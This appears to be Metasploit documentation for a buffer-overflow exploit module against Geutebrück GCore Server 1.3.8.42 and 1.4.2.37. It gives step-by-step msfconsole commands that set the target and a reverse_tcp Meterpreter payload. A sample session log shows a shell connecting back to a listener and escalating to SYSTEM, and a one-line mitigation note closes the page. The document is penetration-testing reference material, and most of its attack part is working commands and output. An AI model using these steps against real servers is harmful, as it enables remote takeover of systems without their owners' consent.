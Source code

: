 ## Vulnerable Application

  Geutebrück GCore Server 1.3.8.42, 1.4.2.37 are vulnerable to a buffer overflow exploitation.
  Since this application is started with system privileges this allows a system remote code execution.

## Verification Steps

  1. Install Windows as basic OS (Tested with Win2012R2, Windows 7)
  2. Install the Geutebrück GCore server
  3. Verify that `http://<your target ip>:13003/statistics/runningmoduleslist.xml` is available.
  4. Start msfconsole
  5. Do: ```use [exploit/windows/http/geutebrueck_gcore_x64_rce_bo]```
  6. Do: ```set rhost <your target ip>```
  7. Do: ```set rport 13003```
  8. Do: ```set payload windows/x64/meterpreter/reverse_tcp```
  9. Do: ```exploit```
  10. You should get a shell as NT/SYSTEM.

## Scenarios

### Geutebrueck GCore 1.4.2.37

```
msf exploit(geutebrueck_gcore_x64_rce_bo) > show options

Module options (exploit/windows/http/geutebrueck_gcore_x64_rce_bo):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.1.10      yes       The target address
   RPORT    13003             yes       The target port



   Payload options (windows/x64/meterpreter/reverse_tcp):

      Name      Current Setting  Required  Description
      ----      ---------------  --------  -----------
      EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
      LHOST     192.168.1.11     yes       The listen address
      LPORT     4444             yes       The listen port


   Exploit target:

      Id  Name
      --  ----
      0   Automatic Targeting

msf exploit(geutebrueck_gcore_x64_rce_bo) > exploit
    [*] Started reverse TCP handler on 192.168.1.11:4444
    [*] 192.168.1.10:13003 - Trying to fingerprint server with http://192.168.1.10:13003/statistics/runningmoduleslist.xml...
    [*] 192.168.1.10:13003 - Vulnerable version detected: GCore 1.4.2.37, Windows x64 (Win7, Win8/8.1, Win2012R2,...)
    [*] 192.168.1.10:13003 - Preparing ROP chain for target 1.4.2.37!
    [*] 192.168.1.10:13003 - Crafting Exploit...
    [*] 192.168.1.10:13003 - Exploit ready for sending...
    [*] 192.168.1.10:13003 - Exploit sent! [*] Sending stage (1188415 bytes) to
    [*] Meterpreter session 1 opened ( :4444 -> 49963) at 2017-11-03 13:14:51 +0200
    [*] 192.168.1.10:13003 - Closing socket.
    meterpreter > getsystem
    ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
    meterpreter > getuid Server username:
    NT-AUTORITÄT\SYSTEM
    meterpreter >
```

## Mitigation

Geutebrück released a new version and an update for the affected product which should be installed to fix the described vulnerabilities.
